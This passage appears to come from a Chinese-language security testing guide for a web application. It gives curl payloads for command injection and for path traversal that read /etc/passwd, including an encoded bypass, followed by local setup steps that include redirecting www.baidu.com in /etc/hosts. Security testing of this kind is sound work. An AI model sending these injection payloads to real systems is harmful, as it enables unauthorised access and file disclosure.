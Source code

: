 ### 命令注入

```bash
# 基础命令注入
curl "http://目标地址/?cmd=;ls -la"

# 管道命令注入
curl "http://目标地址/?cmd=|cat /etc/passwd"
```

### 路径遍历

```bash
# 基础路径遍历
curl "http://目标地址/?file=../../../etc/passwd"

# 编码绕过
curl "http://目标地址/?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"
```

---

## 测试步骤详解

### 1. 环境准备

```bash
# 1. 启动MySQL和Redis
docker-compose up -d

# 2. 启动后端服务
cd backend
go run main.go

# 3. 启动前端服务
cd frontend
npm run dev
```

### 2. 配置测试环境

```bash
# 1. 修改hosts文件
sudo vim /etc/hosts
# 添加: 127.0.0.1 www.baidu.com

# 2. 清理DNS缓存
# macOS
sudo dscacheutil -flushcache
# Linux
sudo systemctl restart systemd-resolved
```
